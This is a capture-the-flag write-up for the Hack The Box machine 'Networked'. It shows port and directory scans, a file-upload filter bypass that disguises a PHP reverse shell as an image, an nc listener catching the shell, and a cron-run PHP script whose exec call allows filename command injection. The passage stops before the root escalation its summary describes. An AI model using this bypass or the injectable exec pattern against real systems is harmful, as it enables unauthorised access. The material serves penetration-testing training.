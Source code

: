 <center><h1>Networked</h1></center>
<br>
<center><h3>Summary</h3></center>
<br>
- Use a file upload to upload our reverse shell to the system
- Exploit a running cronjob that runs a php file every couple minutes
- Use a file that can be run as root to modify the contents of the <b>/etc/sysconfig/network-scripts/ifcfg-guly</b> to give us a reverse shell as root

First we start with an Nmap scan
```
# nmap -sV -sC -T4 -p- 10.10.10.146
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-20 11:24 EDT
Nmap scan report for 10.10.10.146
Host is up (0.060s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.49 seconds
```
Only a couple ports open. Lets check out port 80. Navigating to the webp age we don't see much.

<center><img src="/htb/networked/home.png"></center>
<br>
Running a <b>gobuster</b> will give us a few results.
```
# gobuster dir -u http://10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.146
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2019/09/20 11:36:02 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads (Status: 301)
/photos.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)
```
So there are a few directories. If we going to the <b>/uploads.php</b> page we will be greeted with a file upload

<center><img src="/htb/networked/fileupload.png"></center>
<br>
Trying to upload a php reverse shell will get us and <b>invalid image file</b> message. We are going to have to sneak the shell onto the system. To do this we can append <b>GIF89a</b> to the top of the file and all change the extension from <b>.php</b> to <b>.php.jpeg</b>
```
GIF89a                                                                                                 
<?php                                                                                                  
// php-reverse-shell - A Reverse Shell implementation in PHP
```
Upload the file and you should be greeted with a message saying the upload was successful

<center><img src="/htb/networked/successful.png"></center>
<br>
If you navigate to <b>http://10.10.10.146/photos.php</b> then you should see our uploaded file. Now before we trigger the shell we need to set up our <b>nc</b> listener.

<center><img src="/htb/networked/photos.png"></center>
<br>
To trigger the shell navigate to <b>https://10.10.10.146/uploads/<name of file></b>. If done correctly you should see a shell open
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:39074.
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:49:42 up 25 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$
```
If we do a quick <b>whoami</b> it shows that we have a low privileged shell as the user <b>apache</b>. If we navigate to <b>/home/user/guly</b> then we can see the user.txt file but we are unable to read it. There are also a couple of other interesting files in the home directory
```
sh-4.2$ whoami
whoami
apache

sh-4.2$ ls /home/guly
ls /home/guly
check_attack.php
crontab.guly
user.txt
```
Reading the <b>crontab.guly</b> and the <b>check_attack.php</b> file there are a few things we should note. The <b>crontab.guly</b> is telling us that there is a cronjob running every 3 minutes that executes <b>check_attack.php</b>. The <b>check_attack.php</b> file basically reads every file in the <b>/var/www/html/uploads</b> directory and then deletes it.
```
bash-4.2$ cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php

bash-4.2$ cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```
